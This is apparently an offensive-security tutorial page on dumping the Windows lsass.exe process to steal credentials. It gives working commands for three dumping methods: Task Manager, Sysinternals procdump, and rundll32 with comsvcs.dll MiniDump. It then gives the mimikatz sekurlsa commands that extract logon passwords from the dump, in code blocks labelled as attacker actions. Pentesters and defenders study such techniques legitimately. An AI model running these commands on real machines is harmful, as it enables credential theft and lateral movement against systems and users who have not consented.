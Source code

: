 # Dumping Lsass.exe to Disk Without Mimikatz and Extracting Credentials

## Task Manager

Create a minidump of the lsass.exe using task manager \(must be running as administrator\):

![](../../.gitbook/assets/screenshot-from-2019-03-12-19-55-27.png)

![](../../.gitbook/assets/screenshot-from-2019-03-12-19-56-12.png)

Swtich mimikatz context to the minidump:

{% code-tabs %}
{% code-tabs-item title="attacker@mimikatz" %}
```csharp
sekurlsa::minidump C:\Users\ADMINI~1.OFF\AppData\Local\Temp\lsass.DMP
sekurlsa::logonpasswords
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-03-12-19-54-15.png)

## Procdump

Procdump from sysinternal's could also be used to dump the process:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-03-12-20-11-28.png)

![](../../.gitbook/assets/screenshot-from-2019-03-12-20-13-25.png)

## comsvcs.dll

Executing a native comsvcs.dll DLL found in Windows\system32 with rundll32:

```text
.\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full
```

![](../../.gitbook/assets/image%20%28135%29.png)

